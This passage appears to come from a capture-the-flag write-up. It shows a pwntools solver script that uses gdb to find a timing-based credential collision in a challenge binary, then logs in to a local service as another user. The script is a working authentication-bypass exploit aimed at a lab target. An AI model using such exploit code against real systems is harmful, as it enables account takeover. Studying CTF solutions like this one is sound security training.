 `solver.py` : A pwntools script that bundles the entire attack process into one

```python
from pwn import *
import os

context.log_level = "debug"

def get_collision(clock_num: int, aar_addr: int=0):
    col_solver = process(["gdb", "-q", "-batch", "-x", "set_clock_time.py", "./chal.patched"])
    col_solver.sendline(str(clock_num).encode())

    col_solver.sendlineafter(b'AAR address: ', str(aar_addr).encode())

    col_solver.recvuntil(b"[+] Collision found\n")
    
    col_solver.recvuntil(b"user: ")
    user = bytes.fromhex(col_solver.recvline().strip().decode())

    col_solver.recvuntil(b"pw: ")
    pw = bytes.fromhex(col_solver.recvline().strip().decode())

    col_solver.recvuntil(b"title: ")
    title = bytes.fromhex(col_solver.recvline().strip().decode())

    # context.log_level = "critical"
    return user, pw, title

if __name__ == "__main__":
		p = remote("localhost", 50087)

    p.recvuntil(b"Welcome! The current time is ")
    nums = p.recvline().decode().split(".")
    clock_time = int(nums[0]) * 1000000000 + int(nums[1])

    print(clock_time)

    user, pw, title = get_collision(clock_time)

    # register
    p.sendlineafter(b"Action: ", str(1).encode())
    p.sendlineafter(b"Username: ", b"TEST")
    p.sendlineafter(b"Password: ", pw)

    # login
    p.sendlineafter(b"Action: ", str(2).encode())
    p.sendlineafter(b"Username: ", b"TEST")
    p.sendlineafter(b"Password: ", pw)

    # create node
    p.sendlineafter(b"Action: ", str(1).encode())
    p.sendlineafter(b"Title: ", title)
    p.sendlineafter(b"Content Length: ", str(0x40).encode())
    p.sendlineafter(b"Content: ", b"0123456789abcdef"*4)

    # logout
    p.sendlineafter(b"Action: ", str(3).encode())

    # login
    p.sendlineafter(b"Action: ", str(2).encode())
    p.sendlineafter(b"Username: ", user)
    p.sendlineafter(b"Password: ", b"@")

    p.recvuntil(b"Hello, ")
```